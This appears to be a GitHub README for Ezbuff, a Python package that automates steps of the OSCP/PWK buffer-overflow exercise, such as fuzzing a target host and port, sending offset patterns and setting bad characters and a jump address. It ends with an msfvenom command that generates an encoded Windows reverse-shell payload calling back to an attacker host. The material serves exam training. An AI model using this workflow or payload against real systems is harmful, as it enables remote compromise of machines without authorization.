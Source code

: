 # Ezbuff
Ezbuff is a Python package created to make the **2020 PWK buffer overflow** easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their **OSCP** exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip3 install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff.src.overflow import Overflow

def main():
	# Instanstantiate `Overflow` object
	test = Overflow("10.10.10.10", 80, max_fuzz_bytes=2000)

	# Change the target IP if running in interactive Python interpreter
	test.targ_ip = "10.10.10.1"

	# Change the target port number if running tests in interactive Python interpreter
	test.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 10
	test.fuzz_interval_seconds = 2

	# Add bad characters to objects list containing bad characters found
	# after sending characters payload.
	test.add_bad_char('\x00', '\x01', '\x02')

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	test.fuzz_increment = 150

	# Fuzz the vulnerable application
	test.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accomodate space for reverse shell!!
	test.num_bytes_crash = 1200

	# Set the offset after running the functions to find offset value
	test.offset = 800

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	test.jump_eip = "\x8f\x35\x4a\x5f"

	# Sending pattern to determine offset
	test.send_pattern()

if __name__ == '__main__':
	main()
	
# Sample payload with Msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=1337 EXITFUNC=
thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"

Or use Vengen (https://github.com/binexisHATT/Vengen) to generate payloads with your custom options! 
```
